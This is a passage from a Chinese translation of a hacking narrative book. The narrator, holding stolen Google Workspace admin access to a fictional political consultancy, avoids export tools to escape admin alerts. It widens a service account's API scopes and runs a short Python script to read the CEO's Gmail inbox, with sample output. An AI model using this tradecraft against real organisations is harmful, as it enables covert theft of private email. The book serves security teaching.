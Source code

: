 图 13-1：访问我们新创建的 Google Workspace 账户

它真行！我们刚刚成功获得了 GP 公司目录的管理员权限。现在没有什么是无法触及的了：Gmail、Google Drive，随便说。

## 偷窥一眼

为了保持低调，我们将避免使用 Google Workspace 的导出功能和数据迁移工具。Google 会在任何人触发这些任务时自动提醒其他管理员。我们将继续像之前那样仅通过 API 调用与 Google Workspace 进行交互。我们只需要升级从 Secrets Manager 中获取的用户供应服务账户的范围，加入 Gmail 和 Google Drive 访问权限。

在 Google Workspace 管理员控制台中，我们导航到**安全性**▶**高级设置**▶**管理 API 访问**面板，并在**一个或多个 API 范围**字段中输入以下两个范围，如图 13-2 所示：

+   **https://www.googleapis.com/auth/drive**

+   **https://www.googleapis.com/auth/gmail.readonly**

在**客户端名称**字段中，我们输入服务账户的名称**userprovisionning@gp-gsuite-262115.iam.gserviceaccount.com**，它会被转换为一个唯一的 ID。

![f13002](img/f13002.png)

图 13-2：Google Workspace 管理员面板更新 API 范围

与 Google 以往著名的直观面板不同，这个管理员面板特别糟糕。你不能只是附加范围，因为它们会覆盖旧的范围。你需要输入分配给服务账户的所有范围（包括旧的和新的）。

我们创建了一个新的*gmail.py* Python 脚本，使用之前创建用户时的相同模板代码，只是做了一些更改：

```
USER_EMAIL = 'alexandra.styx@gretschpolitico.com'
service = discovery.build(1'gmail', 'v1', credentials=delegated_credentials)
2 results = service.users().messages().list(
                    userId=USER_EMAIL,
                    labelIds = ['INBOX']).execute()

messages = results.get('messages', [])
```

我们更新了范围，包含了 Gmail 1，然后调用`users().messages()` API 2 来检索 CEO 的电子邮件，CEO 的名字我们愉快地从 LinkedIn 上获取。

然后，只需遍历邮件，提取主题、发件人、收件人和邮件正文。查看完整代码：[`github.com/HackLikeAPornstar/GreschPolitico`](https://github.com/HackLikeAPornstar/GreschPolitico)。我们运行完整的 Python 脚本，悠闲地浏览邮件：

```
root@Point1:~/# **python gmail.py**
alexandra.styx@gretschpolitico.com;
valery.attenbourough@gretschpolitico.com;
Sun, 15 Dec 2020;
Secured the party’s contract – $2M!

We just closed the contract today! We can start targeting PA undecided voters tomorrow!

---

alexandra.styx@gretschpolitico.com;
adam.sparrow@gretschpolitico.com;
Sun, 12 Dec 2020;
We need to go after his public image

Can't we make up a story? Send some girls, champagne and kickstart it
that way? We have the creatives ready, we need to get moving!!!
```
